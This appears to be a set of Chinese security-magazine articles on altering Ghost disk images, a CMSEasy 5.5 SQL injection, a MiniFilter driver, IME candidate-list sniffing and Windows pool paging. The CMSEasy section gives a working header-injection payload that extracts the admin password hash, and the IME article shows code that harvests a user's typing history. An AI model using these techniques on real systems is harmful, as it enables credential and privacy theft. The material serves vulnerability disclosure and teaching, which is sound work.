据我所知，GhostExp 无法在命令行下使用。种种原因使得想要修改 GHO 文件变得似乎遥不可及。现在的问题是：要么我们需要对 GhostExp 程序进行分析，找出其工作原理，然后自己实现一个类似的 GhostExp 程序来修改；要么就需要分析 GHO 文件，解析出文件格式，最终实现对其修改。这两种方法都看似合理，但是难度可想而知。要想在短时间内实现对 GHO 文件的修改，恐怕不太可能。

事情总有转机，经过一番努力，我找出了一种利用二次转换原理实现 GHO 文件修改的方法。该方法适用于命令行模式，可较为“隐藏”地修改 GHO 文件，效果较好。唯一不足是较为耗时，弥补这个缺点的方法是让程序分阶段运行，逐步实现最终对 GHO 文件的修改目的。

二次转换原理的核心思想是将 GHO 文件变为可以被随意修改的虚拟磁盘，让其成为 Windows 系统的一个分区。这样一来，我们就可以如同操作普通磁盘分区一样，在其中建立或者删除、替换任意文件。

要实现这个目的，首先需要使用赛门铁克公司的 Ghost32 程序，这是一个可以运行在 Windows 系统下的 Ghost 软件。利用它，我们可以将 GHO 文件转换为 VMDK 文件。这里需要的命令为：

`d:\\ghost32.exe -clone,mode=restore,src=d:\\winxp.gho,dst=d:\\xp.vmdk -batch -sure`

该命令的意思是将 D 盘下的 winxp.gho 文件以重新恢复的方式转换为 D 盘下的 xp.vmdk。成功转换后，此时的 xp.vmdk 文件就是一个虚拟磁盘文件。我们必须将其挂接在 Windows 系统下，让其成为一个磁盘分区。此时可以直接借助 WinMount 软件来实现虚拟磁盘变为系统磁盘分区。WinMount 软件使用界面如图 2 所示。
图 2 WinMount 使用界面

WinMount 支持命令行模式，可以直接利用命令行将 VMDK 文件挂接在 Windows 系统下。该命令格式为：

`C:\\Progra~1\\WinMount3\\WinMount3.exe -m d:\\xp.vmdk -drv:z -part:0`

意思是将 D 盘下的 xp.vmdk 文件挂接到当前系统下，成为 Z 盘。这里要注意，对不同的 GHO 文件需要进行分析。一般来说，用户都喜欢将 C 盘进行备份，很少制作整体磁盘备份。为此，上述命令中的最后 `-part:0` 意思就是在挂接 VMDK 文件时，需要将其安排为第一分区，即当前 GHO 文件只为一个分区的备份，而非整体磁盘。挂接成功的效果如图 3 所示。
图 3 成功挂接 VMDK

在成功将 VMDK 文件挂接为系统的一个分区后，就可以直接操作该分区，在其中建立或者修改、删除任意文件。之后卸载该分区，此时我们的所有修改行为就已经保存进入 VMDK 中了。卸载该分区的命令为：

`C:\\Progra~1\\WinMount3\\WinMount3.exe -unmountall`

在修改行为成功后，我们还需要将 VMDK 转化回 GHO 文件。此时还需要利用 Ghost32，命令为：

`d:\\ghost32.exe -clone,mode=create,src=d:\\xp.vmdk,dst=d:\\winxp.gho -batch -sure`

该命令的意思是将 D 盘下的 xp.vmdk 文件以新建的方式转换为 D 盘下的 winxp.gho 文件。现在，我们再用 GhostExp 程序打开新修改后的 GHO 文件，会发现所有的修改行为已经成功进入到了当前的 GHO 文件中。

最后，本文旨在讨论安全技术，请勿利用本文中的技术进行任何违法行为，作者与杂志概不负责。

### CMSEasy Insert 注入漏洞

文/图 PaxMac、ywledoc

CMSEasy 的用户量比较大，不过就算是用户众多的系统，也会犯一些错误，而且是一些比较低级的错误。本文要分析的漏洞为 CMSEasy_v5.5_UTF8-20130605，于 6 月份发现，目前官方已经修复此漏洞。下面我们来看漏洞细节。

在对订单的处理流程中，需要用户的 IP 地址，处理流程的代码如下：

```php
function orders_action() {
    $this->view->aid = trim(front::get('aid'));
    if (front::post('submit')) {
        if (front::$post['telphone'] == '') {
            front::flash('联系电话为必填！');
            return;
        }
        front::$post['mid'] = $this->view->user['userid'] ? $this->view->user['userid'] : 0;
        front::$post['adddate'] = time();
        front::$post['ip'] = front::ip();   // 取 IP，想到什么了
        echo front::$post['ip'];
        if (isset(front::$post['aid'])) {
            $aidarr = front::$post['aid'];
            unset(front::$post['aid']);
            foreach ($aidarr as $val) {
                front::$post['aid'] .= $val . ',';
                front::$post['pnums'] .= front::$post['thisnum'][$val] . ',';
            }
        } else {
            front::$post['aid'] = $this->view->aid;
        }
        if (!isset(front::$post['logisticsid']))
            front::$post['logisticsid'] = 0;
        front::$post['oid'] = date('YmdHis') . '-' . front::$post['logisticsid'] . '-' . front::$post['mid'] . '-' . front::$post['payname'];
        $this->orders = new orders();
        $insert = $this->orders->rec_insert(front::$post);  // 插入
```

要实现注入，有两方面限制：一是 `front::ip()` 是否允许伪造 IP；二是 `rec_insert` 对传入的 `front::$post` 没有做安全方面的处理。  
我们再看看 `front::ip()` 的实现。

```php
static function ip() {
    if (getenv('HTTP_CLIENT_IP')) {
        $onlineip=getenv('HTTP_CLIENT_IP');
    }
    elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $onlineip=getenv('HTTP_X_FORWARDED_FOR');
    }
    elseif (getenv('REMOTE_ADDR')) {
        $onlineip=getenv('REMOTE_ADDR');
    }
    else {
        $onlineip=$HTTP_SERVER_VARS['REMOTE_ADDR'];
    }
    return $onlineip;
}
```

这个错误犯得的确很低级，可以用“经典”来形容了。没有任何安全方面的考虑，直接伪造 HTTP 头就可以传入我们的注入语句。下面看看 `rec_insert` 的实现。

```php
function rec_insert($row) {
    $tbname=$this->name;
    $sql=$this->sql_insert($tbname,$row);
    return $this->query_unbuffered($sql);
}
```

```php
function sql_insert($tbname,$row) {
    $sqlfield='';
    $sqlvalue='';
    foreach ($row as $key=>$value) {
        if (in_array($key, explode(',', $this->getcolslist()))) {
            $value=$value;
            $sqlfield .= $key . ',';
            $sqlvalue .= "'" . $value . "',";
        }
    }
    return "INSERT INTO `" . $tbname . "` (" . substr($sqlfield,0,-1) . ") VALUES (" . substr($sqlvalue,0,-1) . ")";
}

function query_unbuffered($sql="") {
    return $this->query($sql,'mysql_unbuffered_query');
}
function query($query_id, $query_type='mysql_query') {
    front::$query[]=$query_id;
    $this->query_id=@$query_type($query_id,$this->connection_id);
    $this->queries[]=$query_id;
    if (!$this->query_id) {
        $this->halt("查询失败:\n$query_id");
    }
    $this->query_count++;
    return $this->query_id;
}
```

`rec_insert` 也没有任何过滤，而且 `$_SERVER` 还不受 GPC 的限制，所以可以任意注入了。访问：`http://localhost/cmseasy/index.php?case=archive&act=orders&aid=24`，点击“提交”，利用 Tamper Data 修改 Header，加上 HTTP 头 `client-ip`，内容如下：

```text
127.1.1.1','24','20130717111710-0-0-'),('1','sfsf','sdfsf',(select concat(username,'##',password) from cmseasy_user where userid=1),'sfsfs','sdfsfsfsds','0','1374031030','127.1.1.1
```

完整的 insert 语句类似如下代码：

```sql
insert into `cmseasy_p_orders`
(id,oid,status,mid,adddate,ip,telephone,pnums,pname,address,postcode,content) VALUES
('1','sfsf','sfdsf','sfsf','sfsfs','sdfsfsfsds','0','1374031030','127.1.1.1','24','20130717111710-0-0-'),
('1','sfsf','sdfsf',(select concat(username,'##',password) from cmseasy_user where userid=1),'sfsfs','sdfsfsfsds','0','1374031030','127.1.1.1','24','20130717111710-0-0-');


```

红色部分是我的 SQL 注入语句。关于这个注入语句有两点：一是注意单引号的闭合；二是这个 insert 语句有两个 values 语句，并且根据我用 MySQL 查询的结果，是以最后一条 values 语句的内容为准的。提交注入语句后的结果如图 1 所示。

| 字段 | 内容 |
|---|---|
| 订单号 | 20130717151433-0-0- |
| 下单时间 | 2013-07-17 11:17:10 |
| 单位名称 | sfsf |
| 联系电话 | sfdsf |
| 详细地址 | admin##21232f297a57a5a743894a0e4a801fc3 |
| 邮政编码 | sfsfs |
| 订单留言 | sdfsfsfsfds |
| 订单状态 | 新订单 |
| 操作 | 关闭本页 |

图 1

（完）

### 初探文件系统微过滤驱动

文/图 李旭昇

文件系统微过滤驱动（File System Mini-Filter，简称 MiniFilter）是微软为了简化文件过滤驱动开发过程而设计的新一代文件过滤框架。MiniFilter 通过向过滤管理器（Filter Manager，简称 FltMgr）注册想要过滤的 I/O 操作来间接地附加到文件系统设备栈上。FltMgr 是一个传统的文件过滤驱动，运行在内核模式，向第三方 MiniFilter 提供文件过滤驱动的常用功能。如图 1 所示是一个简化的 I/O 设备栈，其中有一个 FltMgr 和三个 MiniFilter。
图 1 简化的 I/O 设备栈

针对每一种 I/O 操作，MiniFilter 只需注册预处理回调（pre-operation callback）和后处理回调（post-operation callback）即可。FltMgr 会恰当地处理 IRP，并在 I/O 操作的前、后调用上述两个回调。

与传统过滤驱动相比，MiniFilter 优势明显。首先，MiniFilter 代码十分简洁，开发迅速。除去一些必要的注册工作，我们只需提供两个回调就可以完成对一种 I/O 操作的过滤（甚至可以只提供一个，将另一个设为 NULL）。对于我们不感兴趣的 I/O 操作，FltMgr 将完成基本处理并继续传递。其次，MiniFilter 是微软文档化的方法，具有良好的稳定性与跨平台性，一份代码不需修改便可以在不同系统上工作。另外，FltMgr 还提供了许多通用函数，帮助我们获得文件名等有用信息。

下面我们动手编写一个 MiniFilter。DriverEntry 中通过 FltRegisterFilter 注册 MiniFilter，再通过 FltStartFiltering 开始过滤。

```cpp
extern "C" NTSTATUS
DriverEntry(
    _In_ PDRIVER_OBJECT DriverObject,
    _In_ PUNICODE_STRING RegistryPath
)
{
    DriverObject->DriverUnload = Unload;
}
```

## MiniFilter 驱动注册与回调

```c
DbgPrint("Load!\n");

NTSTATUS status;
// 注册 MiniFilter
status = FltRegisterFilter(DriverObject, &FilterRegistration, &FilterHandle);
if (!NT_SUCCESS(status))
{
    DbgPrint("Fail to Register.\n");
    DbgPrint("%d\n", status == STATUS_OBJECT_NAME_NOT_FOUND);
    return STATUS_SUCCESS;
}
// 开始过滤
status = FltStartFiltering(FilterHandle);
if (!NT_SUCCESS(status))
{
    // 启动失败，取消注册，返回
    FltUnregisterFilter(FilterHandle);
    DbgPrint("Fail to Start.\n");
    return STATUS_SUCCESS;
}

DbgPrint("MiniFilter Started!!!\n");
return STATUS_SUCCESS;
}
```

`FltRegisterFilter` 的原型为：

```c
NTSTATUS FltRegisterFilter(
    _In_    PDRIVER_OBJECT Driver,
    _In_    const FLT_REGISTRATION *Registration,
    _Out_   PFLT_FILTER *RetFilter
);
```

第一个参数为驱动对象，即 DriverEntry 中传入的参数；第二个参数指向 `FLT_REGISTRATION` 结构，我们稍后详细介绍；第三个参数是返回的 MiniFilter 句柄，需要保存在全局变量中，因为函数 `FltStartFiltering` 和 `FltUnregisterFilter` 都要用到它。注册成功后，调用 `FltStartFiltering` 开始过滤，如果启动失败，就调用 `FltUnregisterFilter` 取消注册。

`FLT_REGISTRATION` 结构定义如下：

```c
typedef struct _FLT_REGISTRATION {
    USHORT                              Size;
    USHORT                              Version;
    FLT_REGISTRATION_FLAGS              Flags;
    const FLT_CONTEXT_REGISTRATION      *ContextRegistration;
    const FLT_OPERATION_REGISTRATION    *OperationRegistration;
    ...
    PFLT_FILTER_UNLOAD_CALLBACK            FilterUnloadCallback;
    PFLT_INSTANCE_SETUP_CALLBACK            InstanceSetupCallback;
    PFLT_INSTANCE_QUERY_TEARDOWN_CALLBACK   InstanceQueryTeardownCallback;
    PFLT_INSTANCE_TEARDOWN_CALLBACK         InstanceTeardownStartCallback;
    PFLT_INSTANCE_TEARDOWN_CALLBACK         InstanceTeardownCompleteCallback;
    PFLT_GENERATE_FILE_NAME                 GenerateFileNameCallback;
    PFLT_NORMALIZE_NAME_COMPONENT           NormalizeNameComponentCallback;
    PFLT_NORMALIZE_CONTEXT_CLEANUP          NormalizeContextCleanupCallback;
} FLT_REGISTRATION, *PFLT_REGISTRATION;
```

`Size` 为结构的大小，按部就班地设为 `sizeof(FLT_REGISTRATION)` 即可；`Version` 为版本，必须设为 `FLT_REGISTRATION_VERSION`；`FilterUnloadCallback` 在 MiniFilter 卸载时被调用，不提供该函数将导致 MiniFilter 不能卸载，会带来许多不便。我们将其设为 `FileFilterUnload`，代码很简单，只需用 `FltUnregisterFilter` 取消 MiniFilter 的注册即可。这里需要注意，在 `DriverUnload` 例程中，我们不能再次调用 `FltUnregisterFilter`，这是因为 FltMgr 已经调用过 `FilterUnloadCallback`，MiniFilter 已经被取消注册，再次取消注册将导致蓝屏。

`OperationRegistration` 为一组 `FLT_OPERATION_REGISTRATION` 结构，其结束标志为 `IRP_MJ_OPERATION_END`。`FLT_OPERATION_REGISTRATION` 结构的定义如下：

```c
typedef struct _FLT_OPERATION_REGISTRATION {
    UCHAR                            MajorFunction;
    FLT_OPERATION_REGISTRATION_FLAGS Flags;
    PFLT_PRE_OPERATION_CALLBACK      PreOperation;
    PFLT_POST_OPERATION_CALLBACK     PostOperation;
    PVOID                            Reserved1;
} FLT_OPERATION_REGISTRATION, *PFLT_OPERATION_REGISTRATION;
```

其中 `MajorFunction` 指定了我们感兴趣的 I/O 操作，`PreOperation` 和 `PostOperation` 为相应的预处理回调和后处理回调。`Flags` 设为 0 即可。我们只对 `IRP_MJ_CREATE` 感兴趣，并设置预处理回调 `FileFilterPreCreate` 和后处理回调 `FileFilterPostCreate`。

```c
const FLT_OPERATION_REGISTRATION Callbacks[] = {
    {IRP_MJ_CREATE,
     0,
     (PFLT_PRE_OPERATION_CALLBACK)FileFilterPreCreate,
     (PFLT_POST_OPERATION_CALLBACK)FileFilterPostCreate},
    {IRP_MJ_OPERATION_END}
};
```

读者可以自行修改 `Callbacks` 来添加对其他 I/O 操作的过滤。我们的后处理回调 `FileFilterPostCreate` 只是返回了 `FLT_POSTOP_FINISHED_PROCESSING`，没有额外的操作。预处理回调 `FileFilterPreCreate` 的逻辑也不复杂，首先判断当前操作的文件的后缀名是否为 `virus`，如果是则拒绝操作并打印相关信息，否则就放过该操作。代码如下：

```c
FLT_PREOP_CALLBACK_STATUS FileFilterPreCreate(
    _Inout_ PFLT_CALLBACK_DATA Data,
    _In_ PCFLT_RELATED_OBJECTS FltObjects,
    _In_opt_ PVOID CompletionContext
){
    NTSTATUS status;
    PFLT_FILE_NAME_INFORMATION NameInfo;
    // 获取文件信息
    status = FltGetFileNameInformation(Data, FLT_FILE_NAME_NORMALIZED | FLT_FILE_NAME_QUERY_DEFAULT, &NameInfo);
    if (!NT_SUCCESS(status)) return FLT_PREOP_SUCCESS_WITH_CALLBACK;
    // 解析文件信息
    FltParseFileNameInformation(NameInfo);
    UNICODE_STRING HiddenExt = RTL_CONSTANT_STRING(L"virus");
    if (RtlEqualUnicodeString(&NameInfo->Extension, &HiddenExt, FALSE))
    {
        Data->IoStatus.Status = STATUS_ACCESS_DENIED;
        Data->IoStatus.Information = 0;
        DbgPrint("DENIED Access:%wZ", &NameInfo->Name);
        FltReleaseFileNameInformation(NameInfo);
        return FLT_PREOP_COMPLETE;
    }
    // 释放 NameInfo
    FltReleaseFileNameInformation(NameInfo);
    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}
```

`FileFilterPreCreate` 的第一个参数 `Data` 中有非常详细的信息，包括文件名称、操作的各种参数等。该结构在 MSDN 中有详细的定义，这里不再赘述。我们并不直接操作 `Data`，而是利用 FltMgr 提供的 `FltGetFileNameInformation` 函数获取文件的信息，接着用 `FltParseFileNameInformation` 解析得到的信息。得到的 `FLT_FILE_NAME_INFORMATION` 结构内有丰富的信息供我们利用。

```c
typedef struct _FLT_FILE_NAME_INFORMATION {
    USHORT                  Size;
    FLT_FILE_NAME_PARSED_FLAGS NamesParsed;
    FLT_FILE_NAME_OPTIONS   Format;
    UNICODE_STRING          Name;
    UNICODE_STRING          Volume;
    UNICODE_STRING          Share;
    UNICODE_STRING          Extension;
    UNICODE_STRING          Stream;
    UNICODE_STRING          FinalComponent;
    UNICODE_STRING          ParentDir;
} FLT_FILE_NAME_INFORMATION, *PFLT_FILE_NAME_INFORMATION;


```

其中 `Name` 为文件名，`Extension` 是后缀名。如果当前操作的文件后缀名为 `virus`，就设置 `IoStatus.Status` 为 `STATUS_ACCESS_DENIED`，`IoStatus.Information` 为 0，即拒绝访问。最后需要用 `FltReleaseFileNameInformation` 释放 `NameInfo` 指向的内存，否则将会造成内存泄露，而文件系统的 I/O 操作十分频繁，这将导致内存迅速耗尽。读者可以根据自己的需要修改该函数。

下面讨论一下 MiniFilter 的安装。DDK 中所带的例子采用 INF 文件进行安装，每次编译之后都要重新安装并重启，非常麻烦。但如果用工具加载驱动就会导致 `FltRegisterFilter` 注册失败，错误为 `STATUS_OBJECT_NAME_NOT_FOUND`。查阅 MSDN 后发现，MiniFilter 需要指定 Altitude 等参数，以确定 MiniFilter 加载与过滤的先后顺序。本文将 INF 文件中的注册表操作转换成一个 reg 文件，在加载 MiniFilter 之前双击导入即可。

如图 2 所示，我们新建一个 `test.virus`，在其中随便输入一些内容，此时用记事本就可以打开 `test.virus` 并查看其中的内容。接下来我们加载驱动，并再次尝试打开它。此时记事本提示 Access is denied，并可在 DBGView 中看到相应的输出，如图 3 所示。
图 2  新建 test.virus 并输入一些内容
图 3  加载驱动后，访问被拒绝

### 智能输入法与隐私泄露

文/图 李旭昇

社交网络流行过这样的段子：“输入法出卖了你，输入 WZ，看看第一个是什么。文章=枪手/文科生，网站=IT/销售员，物质=不满现状爱吐槽的男屌丝/光想享受而不想付出的女屌丝，挽尊=充满爱心的人，王子=爱看肥皂剧/励志剧的虎背熊腰，舞者=DANCER/陪酒/失足人员，武装=军事控。”

这些段子当然不能当真，不过候选词的排列顺序确实与用户习惯息息相关。现今拼音输入法追求“智能”，会统计词语输入频率，把常用词排在前面。这种做法在带来便捷的同时，也有暴露用户隐私的隐患。由此我编写了一个程序，将候选词列表读取出来，结果表明，通过这些列表可以分析出大量用户信息。以下是实现过程。

由于我们不清楚词库结构，所以采用“模拟按键+读取候选词列表”的方法。只需依次发送 A-Z、AA-ZZ、AAA-ZZZ 按键，并读取输入法给出的列表，即可囊括所有一至三个字的词，而这些词是日常输入中最常用到的。模拟按键通过循环调用 `keybd_event` 实现。读取列表需要在 `WndProc` 接收到 `WM_IME_COMPOSITION` 消息时进行处理。微软提供了 Input Method Manager（IMM，输入法管理器）对输入法进行管理，我们只要按部就班地调用系统 API 即可。当然，大量消息的发送和处理必须考虑同步问题，否则容易引起程序崩溃。我们先来看菜单项 `IDM_SNIFF` 的处理代码。

```cpp
case IDM_SNIFF:
    LoadKeyboardLayout(L"E0200804", KLF_ACTIVATE);
    WinhWnd = hWnd;
    CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)SniffImmInfo, 0, NULL, NULL);
    break;
```

当用户选择 SniffInfo 菜单项时，我们先加载默认的中文输入法。这里 `E0200804` 不是硬编码，而是微软指定的区域标示符（Locale Identifier）。使用全局变量 `WinhWnd` 保存窗体句柄可以省去传递参数的麻烦，真正发送按键的代码在 `SniffImmInfo` 函数中。由于涉及同步，需要结合处理按键的代码一起分析。

```cpp
VOID SniffImmInfo(){
    int key1=0, key2=0, key3=0;
    WCHAR CurrentKeys[4]={0};
    MessageBox(NULL, L"程序运行期间窗体将会隐藏!\n请用DbgView工具查看输出", L"注意！", MB_OK);
    // 隐藏窗体，避免频繁的窗口闪烁
    ShowWindow(WinhWnd, SW_HIDE);
    // 此处省略只有一个或两个按键的情况，只分析一组按键有三个按键的情况
    // 三个按键的情况，三重循环
}
```

```cpp
KeyCombinationReady = FALSE;
for (key1 = 0; key1 < EnCharCount; key1++)
{
    for (key2 = 0; key2 < EnCharCount; key2++)
    {
        for (key3 = 0; key3 < EnCharCount; key3++)
        {
            // 输出当前正在处理的按键
            CurrentKeys[0] = 'A' + key1;
            CurrentKeys[1] = 'A' + key2;
            CurrentKeys[2] = 'A' + key3;
            OutputDebugString(CurrentKeys);

            // 将窗体设为当前窗体，发送第一个按键
            SetForegroundWindow(WinhWnd);
            keybd_event('A' + key1, 0, 0, 0);
            // 等待第一个按键被处理
            while (!KeyStrokeProcessed);
            KeyStrokeProcessed = FALSE;

            // 将窗体设为当前窗体，发送第二个按键
            SetForegroundWindow(WinhWnd);
            keybd_event('A' + key2, 0, 0, 0);
            // 等待第二个按键被处理
            while (!KeyStrokeProcessed);
            KeyStrokeProcessed = FALSE;

            // 一组按键即将就绪
            KeyCombinationReady = TRUE;

            // 将窗体设为当前窗体，发送第三个按键
            // 此时 KeyCombinationReady 为 TRUE，
            // 所以 WndProc 在处理此次按键时会读取候选词列表
            SetForegroundWindow(WinhWnd);
            keybd_event('A' + key3, 0, 0, 0);
            // 等待第三个按键被处理
            while (!KeyStrokeProcessed);
            KeyStrokeProcessed = FALSE;

            // 将窗体设为当前窗体，发送 ESCAPE 按键
            // 将先前输入的三个按键清空，为下一组按键做准备
            SetForegroundWindow(WinhWnd);
            keybd_event(VK_ESCAPE, 0, 0, 0);
            // 等待 ESCAPE 按键被处理
```

```cpp
while(!KeyStrokeProcessed);
KeyStrokeProcessed=FALSE;
//进入下一组按键
}
}
}
MessageBox(NULL, L"完成!", L"完成", MB_OK);
//恢复显示窗体
ShowWindow(WinhWnd, SW_SHOW);
}

LRESULT CALLBACK WndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
    HIMC ImmContext = 0;
    DWORD CandidateListBytes = 0;
    PCANDIDATELIST PCandidateList = 0;
    switch (message)
    {
    //当输入法的候选词发生变化时，输入法管理器会发送此消息
    case WM_IME_COMPOSITION:
        //如果一组按键没有全部发送完毕，则只是返回此按键被处理过了
        if (!KeyCombinationReady)
        {
            KeyStrokeProcessed = TRUE;
            break;
        }

        //一组按键已经全部发送完毕，此时需要读取候选词列表
        ImmContext = ImmGetContext(hWnd);
        if (ImmContext == NULL) break;
        //获取候选词列表的大小
        CandidateListBytes = ImmGetCandidateList(ImmContext, 0, PCandidateList, 0);

        if (CandidateListBytes <= 0) goto clean;
        //获取候选词列表
        PCandidateList = PCANDIDATELIST(new char[CandidateListBytes]);
        ImmGetCandidateList(ImmContext, 0, PCandidateList, CandidateListBytes);

        //候选词的个数<=0 表示当前按键组合没有有效的候选词
        if (PCandidateList->dwCount <= 0) goto clean;
        //循环打印每个候选词
        LPCWSTR CandidateString;
        for (int i = 0; i < PCandidateList->dwCount; i++)
        {
            CandidateString = (LPCWSTR)((char*)PCandidateList + PCandidateList->dwOffset[i]);
            OutputDebugString(CandidateString);
        }
        //当前按键组合被处理后，将KeyCombinationReady设为FALSE，为下一组按键做准备
        KeyCombinationReady = FALSE;
        OutputDebugString(L"Done!\n\n");
clean:
        ImmReleaseContext(hWnd, ImmContext);
        //此按键已被处理过
        //这使得SniffImmInfo函数继续执行并发送下一组按键
        KeyStrokeProcessed = TRUE;
        break;
    //其他case省略
    }
    return 0;
}
```

为了节省篇幅，我们只分析一组按键有三个按键的情况。SniffImmInfo 在发送按键前，会调用 SetForegroundWindow 确保当前窗口为顶层窗口，否则按键消息可能落入其他窗体，失去效果。SniffImmInfo 在发送每个按键后都会等到 KeyStrokeProcessed 变为 TRUE，即该按键 WndProc 被处理后，再发送下一个按键。此外，SniffImmInfo 在发送一组按键的最后一个按键（即第三个按键）之前，会将 KeyCombinationReady 设为 TRUE，表示一组按键即将就绪。

WndProc 得到 WM_IME_COMPOSITION 消息后，会根据 KeyCombinationReady 的值判断按键序列是否为完整的按键组。如果按键序列不完整，则只是简单地将 KeyStrokeProcessed 设为 TRUE，让 SniffImmInfo 继续发送该组按键的下一个按键；如果已经是一组完整的按键，则循环打印其中的候选词，并将 KeyCombinationReady 设为 FALSE，KeyStrokeProcessed 设为 TRUE 后返回，随后 SniffImmInfo 继续执行并发送下一组按键。

同步解决之后，提取候选词的工作就简单了。调用 ImmGetCandidateList 函数可以获得输入法的候选词列表，其原型如下：

```cpp
DWORD ImmGetCandidateList(
    _In_      HIMC hIMC,
    _In_      DWORD dwIndex,
    _Out_opt_ LPCANDIDATELIST lpCandList,
    _In_      DWORD dwBufLen
);
```

其中 hIMC 是输入法管理器上下文，用 ImmGetContext 函数获得。dwIndex 表示候选词列表的序号。0 表示第一个，即最先的几个候选词。lpCandList 指向我们关心的 CANDIDATELIST 结构，其结构如下：

```c
typedef struct tagCANDIDATELIST {
    DWORD dwSize;
    DWORD dwStyle;
    DWORD dwCount;
    DWORD dwSelection;
    DWORD dwPageStart;
    DWORD dwPageSize;
    DWORD dwOffset[1];
} CANDIDATELIST, *PCANDIDATELIST;


```

由于该结构长度可变，需要先调用一次 ImmGetCandidateList，根据 dwBufLen 的值分配内存，并再调用一次 ImmGetCandidateList，才能获得 CANDIDATELIST 的内容。

CANDIDATELIST 中，dwCount 表示候选词的个数。dwOffset 是一个长度为 dwCount 的数组，其中每个元素都“指向”一个候选词字符串。这里用引号的原因是 dwOffset 给出的不是真正的地址，而是相对于 CANDIDATELIST 起始地址的偏移。

如图1和图2所示，运行程序后可以在 DbgView 内查看每组按键对应的前五个候选词。组合“LXS”的第一个候选词是“李旭昇”，是我的名字；“MM”对应的是“密码”、“木马”排名也很高；这篇文章一直在写按键，“AJ”的第一个候选词非“按键”莫属；“BL”第一个是“遍历”；“BY”第一个是“编译”……再看看开头的无聊段子，“WZ”对应的是“网站”，看来还是有点道理的（由于涉及隐私，故不一一截图）。如果仔细翻看这份列表，再结合社工，应该能分析出许多个人信息。各位读者可以自行实验，效果还是比较明显的。安全无处不在，小心输入法泄露你的隐私！（本文程序在 VS2012+Win7 下编译执行）
图1
图2

就在本文完成之时，我想起乌云平台上的一则漏洞公告（http://www.wooyun.org/bugs/wooyun-2010-024626）：某输入法服务器设置不当，导致用户云输入内容被搜索引擎抓取，进而泄露。其实输入法一直处于安全攻防的视野之内，从早期的借助输入法漏洞绕过 Windows 用户登录，到后来的借助输入法实现注入，再到新近的隐私泄露，无不说明输入法的重要安全意义。再次祝愿各大厂商能够尽快修补漏洞，为用户提供便捷而且安全的输入服务！

## Windows系统空间的页面管理

文/图 王晓松

无论是 Windows 内核程序还是驱动程序，都经常会用到申请内存、释放内存的操作。Windows 系统地址空间有专门的内存池用于满足这种对内存的请求，分为换页内存池（paged pool）和非换页内存池（nonpaged pool）。

在最开始的操作系统中，无所谓换页和非换页，所有申请的内存都在物理内存中。一般来说，内存都是比较宝贵的资源，一些不常用的内容一直占用内存无疑是一种浪费，所以后来提出了换页和非换页的概念。内存的使用以一个页面（4K）为单位，有的内存地址范围内的页面一旦被使用，就一直停留在物理内存中；而有些内存地址范围内的页面，可以依据操作系统的算法，被临时保存到硬盘的一个叫做 pagefile.sys 的文件中。空出的物理内存可以被其余的用户使用，当这个地址再次使用时，再将这个页面的内容从文件中读出，放于某个物理页面，然后映射回该地址空间。这个操作叫做换页操作，对应前者称为非换页（nonpaged），后者称为换页（paged）。如图1所示。
图1 在系统地址空间中的非换页内存池和换页内存池

Windows 系统空间专门划出两个区域用于非换页性质的内存操作和换页性质的内存操作，称为非换页内存池和换页内存池，其优缺点如表1所示。

| 项目 | 非换页内存池 | 换页内存池 |
|---|---|---|
| 优点 | 存取速度快 | 节约物理内存 |
| 缺点 | 占用物理内存 | 换入/换出内存有延时 |

表1

在 Windows 内核中，分配/释放页面的函数统一为 MiAllocatePoolPages/MiFreePoolPages，其函数原型分别如下：

```c
PVOID MiAllocatePoolPages(IN POOL_TYPE PoolType, IN SIZE_T SizeInBytes);
ULONG MiFreePoolPages(IN PVOID StartingAddress);
```

分配换页内存池和非换页内存池中的页面统一使用 MiAllocatePoolPages 函数，只是在该函数的输入参数中指明是需要 NonPagedPool 还是 PagedPool。在该函数内部根据输入的参数不同，分别进行处理。释放页面的操作也统一使用 MiFreePoolPages 函数，根据输入的参数 StartingAddress 确定地址是在换页内存池范围内还是非换页内存池范围内，分别进行处理。

## 非换页内存池的管理

可以认为非换页内存池是一个有 N 个页面的内存池。由于非换页池总有对应的物理内存，因此其管理结构被置于每个内存页面内。通常来说，对于空闲页面和内存，其管理结构都会置于该页面或者内存内，反正也没有使用，正好放置一些管理结构，当使用时去掉就可以了。如果你打开内存池的一个页面，会发现类似于下面的标记。

```c
typedef struct _MMFREE_POOL_ENTRY {
    LIST_ENTRY List; //串联起该链表中的节点，头页面有效
    PFN_NUMBER Size; //本节点中页面的个数，头页面有效
    ULONG Signature;
    struct _MMFREE_POOL_ENTRY *Owner; //我属于哪个节点呢？
} MMFREE_POOL_ENTRY, *PMMFREE_POOL_ENTRY;


```

这些页面是如何通过这个结构组织起来的呢？首先，系统在初始化时，会初始化一个数组 MmNonPagedPoolFreeListHead，这个数组共有 4 项，存储着 4 个链表的头部。非换页内存池中空闲的页面分为 4 种，分别是连续 1 个页面、连续 2 个页面、连续 3 个页面和连续大于 3 个的页面。这些连续的页面称为一个节点，将这些节点使用链表的方式连接起来，4 个链表的头部就存储在 MmNonPagedPoolFreeListHead 数组中。

具体实现就是在每个空闲页面最开始都有一个 _MMFREE_POOL_ENTRY 结构，其中 List、Size 成员只在每个节点的头页面中有效，分别用于节点的连接和表示该节点页面的数量，而 Owner 成员在每个页面中都有效，均指向该节点的头页面。可以想象，MmNonPagedPoolFreeListHead 数组初始化时，只有大于 3 个页面的链表中有一个节点，其 Size 是非换页内存池页面的数量。需要注意的是，在非换页内存池中分配的内存无论在虚拟空间还是物理页面上，都是连续的。换句话说，图2中每个节点包含的页面都是连续的。
图2 非换页内存池链表管理的示意
图3 每个节点是 3 个页面的链表的例子  
（虚线框内为一个节点，Owner 成员指向节点的头页面，灰色字段表示无效）

### 1）MiAllocatePoolPages 函数的实现

了解了以上非换页内存池的结构，那么 MiAllocatePoolPages 函数的非换页内存池实现部分就比较简单了。需要多大的页面，到相应的链表中去取就好了，如果有剩余页面（如 2 个页面的链表已空，在后两个链表中提取出 2 个页面后就会出现剩余页面），就按照剩余页面的大小放于对应的链表中。

